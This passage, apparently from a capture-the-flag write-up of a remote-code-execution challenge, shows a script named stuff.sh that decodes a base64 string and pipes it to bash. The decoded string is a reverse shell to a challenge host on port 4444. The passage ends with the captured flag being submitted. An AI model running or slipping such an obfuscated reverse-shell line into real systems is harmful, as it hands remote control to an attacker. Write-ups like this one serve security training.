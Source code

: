 And finally, I used the same reverse shell code in `stuff.sh`.

```bash
#!/bin/bash
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzQ0NDQgMD4mMSAK | base64 -d | bash
```

I pushed the code, got the hit on my listener, and read the flag.

```bash
$ askgod submit FLAG-f245e25dd592870ad4883a2b19651a93                                     
Congratulations, you score your team 2 points!
Message: gomplate.git.ctf RCE
```